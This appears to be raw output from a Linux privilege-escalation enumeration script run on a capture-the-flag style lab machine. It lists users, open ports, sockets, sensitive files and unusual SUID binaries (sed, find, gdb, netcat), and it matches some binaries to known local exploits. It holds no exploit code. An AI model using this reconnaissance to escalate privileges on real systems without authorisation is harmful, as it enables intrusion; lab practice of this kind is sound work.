SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

╔══════════╣ Systemd PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#systemd-path-relative-paths                                                                                              
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin                                                                                                                 

╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services                                                                                                                 
/etc/systemd/system/multi-user.target.wants/networking.service could be executing some relative path                                                                                        
/etc/systemd/system/network-online.target.wants/networking.service could be executing some relative path
/lib/systemd/system/emergency.service could be executing some relative path
You can't write on systemd PATH

╔══════════╣ System timers
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#timers                                                                                                                   
NEXT                         LEFT          LAST                         PASSED       UNIT                         ACTIVATES                                                                 
Thu 2025-04-03 05:29:21 IST  2h 58min left Wed 2025-04-02 22:34:19 IST  3h 56min ago motd-news.timer              motd-news.service
Thu 2025-04-03 06:54:23 IST  4h 23min left Wed 2025-04-02 22:34:19 IST  3h 56min ago apt-daily-upgrade.timer      apt-daily-upgrade.service
Thu 2025-04-03 08:13:35 IST  5h 43min left Wed 2025-04-02 22:34:19 IST  3h 56min ago apt-daily.timer              apt-daily.service
Thu 2025-04-03 22:49:27 IST  20h left      Wed 2025-04-02 22:49:27 IST  3h 40min ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
n/a                          n/a           n/a                          n/a          snapd.snap-repair.timer      snapd.snap-repair.service
n/a                          n/a           n/a                          n/a          ureadahead-stop.timer        ureadahead-stop.service

╔══════════╣ Analyzing .timer files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#timers                                                                                                                   
                                                                                                                                                                                            
╔══════════╣ Analyzing .socket files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sockets                                                                                                                  
/etc/systemd/system/sockets.target.wants/uuidd.socket is calling this writable listener: /run/uuidd/request                                                                                 
/lib/systemd/system/dbus.socket is calling this writable listener: /var/run/dbus/system_bus_socket
/lib/systemd/system/sockets.target.wants/dbus.socket is calling this writable listener: /var/run/dbus/system_bus_socket
/lib/systemd/system/sockets.target.wants/systemd-journald-dev-log.socket is calling this writable listener: /run/systemd/journal/dev-log
/lib/systemd/system/sockets.target.wants/systemd-journald.socket is calling this writable listener: /run/systemd/journal/stdout
/lib/systemd/system/sockets.target.wants/systemd-journald.socket is calling this writable listener: /run/systemd/journal/socket
/lib/systemd/system/syslog.socket is calling this writable listener: /run/systemd/journal/syslog
/lib/systemd/system/systemd-bus-proxyd.socket is calling this writable listener: /var/run/dbus/system_bus_socket
/lib/systemd/system/systemd-journald-dev-log.socket is calling this writable listener: /run/systemd/journal/dev-log
/lib/systemd/system/systemd-journald.socket is calling this writable listener: /run/systemd/journal/stdout
/lib/systemd/system/systemd-journald.socket is calling this writable listener: /run/systemd/journal/socket
/lib/systemd/system/uuidd.socket is calling this writable listener: /run/uuidd/request

╔══════════╣ Unix Sockets Listening
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sockets                                                                                                                  
/run/acpid.socket                                                                                                                                                                           
  └─(Read Write)
/run/dbus/system_bus_socket
  └─(Read Write)
/run/lvm/lvmetad.socket
/run/lvm/lvmpolld.socket
/run/samba/nmbd/unexpected
  └─(Read Write)
/run/samba/winbindd/pipe
  └─(Read Write)
/run/snapd-snap.socket
  └─(Read Write)
/run/snapd.socket
  └─(Read Write)
/run/systemd/cgroups-agent
/run/systemd/fsck.progress
/run/systemd/journal/dev-log
  └─(Read Write)
/run/systemd/journal/socket
  └─(Read Write)
/run/systemd/journal/stdout
  └─(Read Write)
/run/systemd/journal/syslog
  └─(Read Write)
/run/systemd/notify
  └─(Read Write)
/run/systemd/private
  └─(Read Write)
/run/udev/control
/run/user/1002/snapd-session-agent.socket
  └─(Read Write)
/run/user/1002/systemd/notify
  └─(Read Write)
/run/user/1002/systemd/private
  └─(Read Write)
/run/uuidd/request
  └─(Read Write)
/var/lib/lxd/unix.socket
/var/lib/samba/winbindd_privileged/pipe
/var/run/dbus/system_bus_socket
  └─(Read Write)
/var/run/samba/nmbd/unexpected
  └─(Read Write)
/var/run/samba/winbindd/pipe
  └─(Read Write)

╔══════════╣ D-Bus config files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#d-bus                                                                                                                    
Possible weak user policy found on /etc/dbus-1/system.d/dnsmasq.conf (        <policy user="dnsmasq">)                                                                                      
Possible weak user policy found on /etc/dbus-1/system.d/org.freedesktop.network1.conf (        <policy user="systemd-network">)
Possible weak user policy found on /etc/dbus-1/system.d/org.freedesktop.resolve1.conf (        <policy user="systemd-resolve">)

╔══════════╣ D-Bus Service Objects list
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#d-bus                                                                                                                    
NAME                                 PID PROCESS         USER             CONNECTION    UNIT                      SESSION    DESCRIPTION                                                    
:1.0                                   1 systemd         root             :1.0          init.scope                -          -                  
:1.1                                 798 systemd-logind  root             :1.1          systemd-logind.service    -          -                  
:1.13                              12275 busctl          arturo           :1.13         session-5.scope           5          -                  
:1.2                                 805 accounts-daemon[0m root             :1.2          accounts-daemon.service   -          -                  
:1.3                                 879 polkitd         root             :1.3          polkitd.service           -          -                  
:1.4                                 955 unattended-upgr root             :1.4          unattended-upgrades.se... -          -                  
com.ubuntu.LanguageSelector            - -               -                (activatable) -                         -         
com.ubuntu.SoftwareProperties          - -               -                (activatable) -                         -         
org.freedesktop.Accounts             805 accounts-daemon[0m root             :1.2          accounts-daemon.service   -          -                  
org.freedesktop.DBus                 817 dbus-daemon[0m     messagebus       org.freedesktop.DBus dbus.service              -          -                  
org.freedesktop.PolicyKit1           879 polkitd         root             :1.3          polkitd.service           -          -                  
org.freedesktop.hostname1              - -               -                (activatable) -                         -         
org.freedesktop.locale1                - -               -                (activatable) -                         -         
org.freedesktop.login1               798 systemd-logind  root             :1.1          systemd-logind.service    -          -                  
org.freedesktop.network1               - -               -                (activatable) -                         -         
org.freedesktop.resolve1               - -               -                (activatable) -                         -         
org.freedesktop.systemd1               1 systemd         root             :1.0          init.scope                -          -                  
org.freedesktop.timedate1              - -               -                (activatable) -                         -         


                              ╔═════════════════════╗
══════════════════════════════╣ Network Information ╠══════════════════════════════                                                                                                         
                              ╚═════════════════════╝                                                                                                                                       
╔══════════╣ Hostname, hosts and DNS
Money-Heist                                                                                                                                                                                 
127.0.0.1       localhost
127.0.1.1       Money-Heist

::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

╔══════════╣ Interfaces
# symbolic names for networks, see networks(5) for more information                                                                                                                         
link-local 169.254.0.0
enp0s3    Link encap:Ethernet  HWaddr 08:00:27:71:fa:31  
          inet addr:192.168.56.120  Bcast:192.168.56.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:fe71:fa31/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1218353 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1354519 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:203606936 (203.6 MB)  TX bytes:563512439 (563.5 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:75376 errors:0 dropped:0 overruns:0 frame:0
          TX packets:75376 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:5581456 (5.5 MB)  TX bytes:5581456 (5.5 MB)


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                               
tcp        0      0 0.0.0.0:55001           0.0.0.0:*               LISTEN      -                                                                                                           
tcp6       0      0 :::21                   :::*                    LISTEN      -               
tcp6       0      0 :::55001                :::*                    LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               

╔══════════╣ Can I sniff with tcpdump?
No                                                                                                                                                                                          
                                                                                                                                                                                            


                               ╔═══════════════════╗
═══════════════════════════════╣ Users Information ╠═══════════════════════════════                                                                                                         
                               ╚═══════════════════╝                                                                                                                                        
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users                                                                                                                    
uid=1002(arturo) gid=1002(arturo) groups=1002(arturo)                                                                                                                                       

╔══════════╣ Do I have PGP keys?
/usr/bin/gpg                                                                                                                                                                                
netpgpkeys Not Found
netpgp Not Found                                                                                                                                                                            
                                                                                                                                                                                            
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                            
                                                                                                                                                                                            
╔══════════╣ Checking sudo tokens
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens                                                                                                      
ptrace protection is enabled (1)                                                                                                                                                            

╔══════════╣ Checking Pkexec policy
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#pe-method-2                                                                                  
                                                                                                                                                                                            
[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin

╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash                                                                                                                                                             

╔══════════╣ Users with console
arturo:x:1002:1002:,,,:/home/arturo:/bin/bash                                                                                                                                               
denver:x:1003:1003:,,,:/home/denver:/bin/bash
nairobi:x:1004:1004:,,,:/home/nairobi:/bin/bash
root:x:0:0:root:/root:/bin/bash
tokyo:x:1000:1000:tokyo,,,:/home/tokyo:/bin/bash

╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)                                                                                                                                                      
uid=1000(tokyo) gid=1000(tokyo) groups=1000(tokyo),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(sambashare),117(lpadmin)
uid=1002(arturo) gid=1002(arturo) groups=1002(arturo)
uid=1003(denver) gid=1003(denver) groups=1003(denver)
uid=1004(nairobi) gid=1004(nairobi) groups=1004(nairobi)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=105(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=106(lxd) gid=65534(nogroup) groups=65534(nogroup)
uid=107(messagebus) gid=111(messagebus) groups=111(messagebus)
uid=108(uuidd) gid=112(uuidd) groups=112(uuidd)
uid=109(dnsmasq) gid=65534(nogroup) groups=65534(nogroup)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=110(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=111(ftp) gid=119(ftp) groups=119(ftp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=1(daemon[0m) gid=1(daemon[0m) groups=1(daemon[0m)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)

╔══════════╣ Login now
 02:30:29 up  3:56,  2 users,  load average: 1.66, 0.44, 0.15                                                                                                                               
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
arturo   tty1                      01:46   42:50   0.08s  0.02s -bash
arturo   pts/0    192.168.56.52    02:05   52.00s  0.28s  0.00s w

╔══════════╣ Last logons
tokyo    tty1         Tue Oct  6 20:23:29 2020 - crash                    (1+21:20)    0.0.0.0                                                                                              
reboot   system boot  Tue Oct  6 20:22:59 2020   still running                         0.0.0.0
tokyo    tty1         Mon Oct  5 16:08:29 2020 - crash                    (1+04:14)    0.0.0.0
reboot   system boot  Mon Oct  5 16:00:53 2020   still running                         0.0.0.0
tokyo    tty1         Mon Oct  5 15:58:43 2020 - crash                     (00:02)     0.0.0.0
reboot   system boot  Mon Oct  5 15:57:21 2020   still running                         0.0.0.0
tokyo    tty1         Mon Oct  5 15:49:13 2020 - crash                     (00:08)     0.0.0.0
reboot   system boot  Mon Oct  5 15:46:32 2020   still running                         0.0.0.0

wtmp begins Mon Oct  5 15:46:32 2020

╔══════════╣ Last time logon each user
Username         Port     From             Latest                                                                                                                                           
tokyo            tty1                      Thu Nov 19 23:34:10 +0530 2020
arturo           pts/0    192.168.56.52    Thu Apr  3 02:05:55 +0530 2025
nairobi          pts/1    10.0.2.60        Thu Oct 15 14:54:56 +0530 2020

╔══════════╣ Do not forget to test 'su' as any other user with shell: without password and with their names as password (I don't do it in FAST mode...)
                                                                                                                                                                                            
╔══════════╣ Do not forget to execute 'sudo -l' without password or with valid password (if you know it)!!
                                                                                                                                                                                            


                             ╔══════════════════════╗
═════════════════════════════╣ Software Information ╠═════════════════════════════                                                                                                          
                             ╚══════════════════════╝                                                                                                                                       
╔══════════╣ Useful software
/usr/bin/base64                                                                                                                                                                             
/usr/bin/curl
/usr/bin/gdb
/usr/bin/lxc
/bin/nc
/bin/netcat
/usr/bin/perl
/bin/ping
/usr/bin/python
/usr/bin/python2
/usr/bin/python2.7
/usr/bin/python3
/usr/bin/sudo
/usr/bin/wget

╔══════════╣ Installed Compilers
/usr/share/gcc-5                                                                                                                                                                            

╔══════════╣ Searching mysql credentials and exec
Found readable /etc/mysql/my.cnf                                                                                                                                                            
!includedir /etc/mysql/conf.d/

╔══════════╣ Analyzing Apache-Nginx Files (limit 70)
Apache version: Server version: Apache/2.4.18 (Ubuntu)                                                                                                                                      
Server built:   2020-08-12T21:35:50
httpd Not Found
                                                                                                                                                                                            
Nginx version: nginx Not Found
                                                                                                                                                                                            
══╣ PHP exec extensions
drwxr-xr-x 2 root root 4096 Oct  5  2020 /etc/apache2/sites-enabled                                                                                                                         
drwxr-xr-x 2 root root 4096 Oct  5  2020 /etc/apache2/sites-enabled
lrwxrwxrwx 1 root root 35 Oct  5  2020 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>


-rw-r--r-- 1 root root 1332 Jul 15  2020 /etc/apache2/sites-available/000-default.conf
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
lrwxrwxrwx 1 root root 35 Oct  5  2020 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>


╔══════════╣ Analyzing Rsync Files (limit 70)
-rw-r--r-- 1 root root 1044 Feb 14  2020 /usr/share/doc/rsync/examples/rsyncd.conf                                                                                                          
[ftp]
        comment = public archive
        path = /var/www/pub
        use chroot = yes
        lock file = /var/lock/rsyncd
        read only = yes
        list = yes
        uid = nobody
        gid = nogroup
        strict modes = yes
        ignore errors = no
        ignore nonreadable = yes
        transfer logging = no
        timeout = 600
        refuse options = checksum dry-run
        dont compress = *.gz *.tgz *.zip *.z *.rpm *.deb *.iso *.bz2 *.tbz


╔══════════╣ Analyzing Ldap Files (limit 70)
The password hash is from the {SSHA} to 'structural'                                                                                                                                        
drwxr-xr-x 2 root root 4096 Oct  5  2020 /etc/ldap


╔══════════╣ Searching ssl/ssh files
╔══════════╣ Analyzing SSH Files (limit 70)                                                                                                                                                 
                                                                                                                                                                                            


-rw-r--r-- 1 root root 606 Oct  5  2020 /etc/ssh/ssh_host_dsa_key.pub
-rw-r--r-- 1 root root 178 Oct  5  2020 /etc/ssh/ssh_host_ecdsa_key.pub
-rw-r--r-- 1 root root 98 Oct  5  2020 /etc/ssh/ssh_host_ed25519_key.pub
-rw-r--r-- 1 root root 398 Oct  5  2020 /etc/ssh/ssh_host_rsa_key.pub

Port 55001
PermitRootLogin prohibit-password
PubkeyAuthentication yes
PermitEmptyPasswords no
ChallengeResponseAuthentication no
UsePAM yes

══╣ Possible private SSH keys were found!
/home/arturo/.config/lxc/client.key

══╣ Some certificates were found (out limited):
/etc/ssl/certs/ACCVRAIZ1.pem                                                                                                                                                                
/etc/ssl/certs/AC_RAIZ_FNMT-RCM.pem
/etc/ssl/certs/Actalis_Authentication_Root_CA.pem
/etc/ssl/certs/AffirmTrust_Commercial.pem
/etc/ssl/certs/AffirmTrust_Networking.pem
/etc/ssl/certs/AffirmTrust_Premium_ECC.pem
/etc/ssl/certs/AffirmTrust_Premium.pem
/etc/ssl/certs/Amazon_Root_CA_1.pem
/etc/ssl/certs/Amazon_Root_CA_2.pem
/etc/ssl/certs/Amazon_Root_CA_3.pem
/etc/ssl/certs/Amazon_Root_CA_4.pem
/etc/ssl/certs/Atos_TrustedRoot_2011.pem
/etc/ssl/certs/Autoridad_de_Certificacion_Firmaprofesional_CIF_A62634068.pem
/etc/ssl/certs/Baltimore_CyberTrust_Root.pem
/etc/ssl/certs/Buypass_Class_2_Root_CA.pem
/etc/ssl/certs/Buypass_Class_3_Root_CA.pem
/etc/ssl/certs/ca-certificates.crt
/etc/ssl/certs/CA_Disig_Root_R2.pem
/etc/ssl/certs/Certigna.pem
/etc/ssl/certs/Certinomis_-_Root_CA.pem
4687PSTORAGE_CERTSBIN

══╣ Some home ssh config file was found
/usr/share/doc/openssh-client/examples/sshd_config                                                                                                                                          
AuthorizedKeysFile      .ssh/authorized_keys
Subsystem       sftp    /usr/lib/openssh/sftp-server

══╣ /etc/hosts.allow file found, trying to read the rules:
/etc/hosts.allow                                                                                                                                                                            


Searching inside /etc/ssh/ssh_config for interesting info
Host *
    SendEnv LANG LC_*
    HashKnownHosts yes
    GSSAPIAuthentication yes
    GSSAPIDelegateCredentials no

╔══════════╣ Analyzing PAM Auth Files (limit 70)
drwxr-xr-x 2 root root 4096 Oct 22  2020 /etc/pam.d                                                                                                                                         
-rw-r--r-- 1 root root 2133 May 27  2020 /etc/pam.d/sshd
account    required     pam_nologin.so
session [success=ok ignore=ignore module_unknown=ignore default=bad]        pam_selinux.so close
session    required     pam_loginuid.so
session    optional     pam_keyinit.so force revoke
session    optional     pam_motd.so  motd=/run/motd.dynamic
session    optional     pam_motd.so noupdate
session    optional     pam_mail.so standard noenv # [1]
session    required     pam_limits.so
session    required     pam_env.so # [1]
session    required     pam_env.so user_readenv=1 envfile=/etc/default/locale
session [success=ok ignore=ignore module_unknown=ignore default=bad]        pam_selinux.so open


╔══════════╣ Searching kerberos conf files and tickets
╚ http://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory                                                                                                    
ptrace protection is enabled (1), you need to disable it to search for tickets inside processes memory                                                                                      
-rw-r--r-- 1 root root 89 Jul 21  2015 /usr/share/samba/setup/krb5.conf
[libdefaults]
        default_realm = ${REALM}
        dns_lookup_realm = false
        dns_lookup_kdc = true
tickets kerberos Not Found
klist Not Found                                                                                                                                                                             
                                                                                                                                                                                            


╔══════════╣ Searching AD cached hashes
-rw------- 1 root root 430080 Oct  5  2020 /var/lib/samba/private/secrets.tdb                                                                                                               

╔══════════╣ Searching tmux sessions
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-shell-sessions                                                                                                      
tmux 2.1                                                                                                                                                                                    


/tmp/tmux-1002
╔══════════╣ Analyzing Keyring Files (limit 70)
drwxr-xr-x 2 root root 4096 Oct  5  2020 /usr/share/keyrings
drwxr-xr-x 2 root root 4096 Oct  5  2020 /var/lib/apt/keyrings
╔══════════╣ Searching uncommon passwd files (splunk)
passwd file: /etc/pam.d/passwd
passwd file: /etc/passwd
passwd file: /usr/share/bash-completion/completions/passwd
passwd file: /usr/share/lintian/overrides/passwd

╔══════════╣ Analyzing PGP-GPG Files (limit 70)
/usr/bin/gpg                                                                                                                                                                                
netpgpkeys Not Found
netpgp Not Found                                                                                    
-rw-r--r-- 1 root root 13996 Aug 10  2020 /etc/apt/trusted.gpg
-rw-r--r-- 1 root root 14076 Jun  3  2020 /usr/share/keyrings/ubuntu-archive-keyring.gpg
-rw-r--r-- 1 root root 0 Jun  3  2020 /usr/share/keyrings/ubuntu-archive-removed-keys.gpg
-rw-r--r-- 1 root root 2294 Nov 12  2013 /usr/share/keyrings/ubuntu-cloudimage-keyring.gpg
-rw-r--r-- 1 root root 0 Nov 12  2013 /usr/share/keyrings/ubuntu-cloudimage-keyring-removed.gpg
-rw-r--r-- 1 root root 2253 Nov  6  2017 /usr/share/keyrings/ubuntu-esm-keyring.gpg
-rw-r--r-- 1 root root 1139 Nov  6  2017 /usr/share/keyrings/ubuntu-fips-keyring.gpg
-rw-r--r-- 1 root root 1227 Jun  3  2020 /usr/share/keyrings/ubuntu-master-keyring.gpg
-rw-r--r-- 1 root root 2256 Feb 27  2016 /usr/share/popularity-contest/debian-popcon.gpg
-rw-r--r-- 1 root root 12335 Aug 10  2020 /var/lib/apt/keyrings/ubuntu-archive-keyring.gpg
╔══════════╣ Analyzing Cache Vi Files (limit 70)
-rw------- 1 root arturo 4096 Oct 11  2020 /etc/.passwd.swp       
-rw-r--r-- 1 root root 1024 Oct 15  2020 /etc/ssh/.ssh_config.swp
-rw-r--r-- 1 root root 1024 Oct 23  2020 /etc/.vsftpd.config.swp
╔══════════╣ Analyzing Postfix Files (limit 70)
-rw-r--r-- 1 root root 694 May 18  2016 /usr/share/bash-completion/completions/postfix
╔══════════╣ Analyzing FTP Files (limit 70)
-rw-r--r-- 1 root root 5851 Oct 22  2020 /etc/vsftpd.conf                             
anonymous_enable=yes
local_enable=YES
#write_enable=YES
#anon_upload_enable=YES
#anon_mkdir_write_enable=YES
#chown_uploads=YES
#chown_username=whoever
-rw-r--r-- 1 root root 41 Feb 11  2016 /usr/lib/tmpfiles.d/vsftpd.conf
-rw-r--r-- 1 root root 564 Apr 13  2016 /usr/share/doc/vsftpd/examples/INTERNET_SITE_NOINETD/vsftpd.conf
anonymous_enable
local_enable
write_enable
anon_upload_enable
anon_mkdir_write_enable
anon_other_write_enable
-rw-r--r-- 1 root root 506 Apr 13  2016 /usr/share/doc/vsftpd/examples/INTERNET_SITE/vsftpd.conf
anonymous_enable
local_enable
write_enable
anon_upload_enable
anon_mkdir_write_enable
anon_other_write_enable
-rw-r--r-- 1 root root 260 Feb  2  2008 /usr/share/doc/vsftpd/examples/VIRTUAL_USERS/vsftpd.conf
anonymous_enable
local_enable=YES
write_enable
anon_upload_enable
anon_mkdir_write_enable
anon_other_write_enable

╔══════════╣ Analyzing Samba Files (limit 70)
smbstatus only works as root!                                                                                                                                                               
-rw-r--r-- 1 root root 9542 Oct  5  2020 /etc/samba/smb.conf
;   logon script = logon.cmd
;   
;   
;   create mask = 0700
;   directory mask = 0700
;   guest ok = yes
;   
# The path below should be writable by all users so that their
;   
;   
;   create mask = 0600
;   directory mask = 0700
   
   
   
   create mask = 0700
   browseable = yes
   
   
-rw-r--r-- 1 root root 9542 Aug  8  2020 /usr/share/samba/smb.conf
;   logon script = logon.cmd
;   
;   
;   create mask = 0700
;   directory mask = 0700
;   guest ok = yes
;   
# The path below should be writable by all users so that their
;   
;   
;   create mask = 0600
;   directory mask = 0700
   
   
   
   create mask = 0700
   browseable = yes
   
   

╔══════════╣ Analyzing Windows Files (limit 70)
lrwxrwxrwx 1 root root 26 Oct 13  2020 /etc/alternatives/my.cnf -> /etc/mysql/my.cnf.fallback
lrwxrwxrwx 1 root root 24 Oct 13  2020 /etc/mysql/my.cnf -> /etc/alternatives/my.cnf
-rw-r--r-- 1 root root 56 Oct 13  2020 /var/lib/dpkg/alternatives/my.cnf
╔══════════╣ Analyzing Other Interesting Files (limit 70)
-rw-r--r-- 1 root root 3771 Sep  1  2015 /etc/skel/.bashrc                             
-rw-r--r-- 1 arturo arturo 3771 Oct 10  2020 /home/arturo/.bashrc
-rw-r--r-- 1 root root 655 Jul 13  2019 /etc/skel/.profile
-rw-r--r-- 1 arturo arturo 655 Oct 10  2020 /home/arturo/.profile
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                      ╚════════════════════════════════════╝                                                                                                                                
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                            
strings Not Found                                                                                                                                                                           
---s-ws--x 1 nairobi denver 72K Feb 12  2016 /bin/sed
-rwsr-sr-x 1 tokyo tokyo 31K Dec  4  2012 /bin/nc.openbsd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 31K Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40K Jan 27  2020 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K May  8  2014 /bin/ping6
-rwsr-xr-x 1 root root 44K May  8  2014 /bin/ping
-rwsr-xr-x 1 root root 27K Jan 27  2020 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 40K Mar 27  2019 /bin/su
-rwsr-xr-x 1 root root 40K Mar 27  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 23K Mar 27  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 39K Mar 27  2019 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-sr-x 1 daemon daemon 51K Jan 15  2016 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 33K Mar 27  2019 /usr/bin/newgidmap
---s--s--x 1 denver denver 217K Feb  8  2016 /usr/bin/find
-rwsr-xr-x 1 root root 134K Feb  1  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 74K Mar 27  2019 /usr/bin/gpasswd
-rwsrwx--- 1 tokyo nairobi 6.3M Jun 10  2017 /usr/bin/gdb
-rwsr-xr-x 1 root root 53K Mar 27  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 71K Mar 27  2019 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 33K Mar 27  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 109K Jul 11  2020 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-x 1 root root 83K Apr 10  2019 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 15K Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root messagebus 42K Jun 12  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10K Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 419K May 27  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 35K Mar  6  2017 /sbin/mount.cifs

╔══════════╣ SGID
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                            
---s-ws--x 1 nairobi denver 72K Feb 12  2016 /bin/sed                                                                                                                                       
-rwsr-sr-x 1 tokyo tokyo 31K Dec  4  2012 /bin/nc.openbsd (Unknown SGID binary)
-rwxr-sr-x 1 root tty 15K Mar  1  2016 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 36K Apr  6  2016 /usr/bin/crontab
-rwxr-sr-x 1 root shadow 61K Mar 27  2019 /usr/bin/chage
-rwsr-sr-x 1 daemon daemon 51K Jan 15  2016 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwxr-sr-x 1 root tty 27K Jan 27  2020 /usr/bin/wall
-rwxr-sr-x 1 root mlocate 39K Nov 18  2014 /usr/bin/mlocate
-rwxr-sr-x 1 root ssh 351K May 27  2020 /usr/bin/ssh-agent
-rwxr-sr-x 1 root shadow 23K Mar 27  2019 /usr/bin/expiry
---s--s--x 1 denver denver 217K Feb  8  2016 /usr/bin/find
-rwxr-sr-x 1 root utmp 425K Feb  7  2016 /usr/bin/screen  --->  GNU_Screen_4.5.0
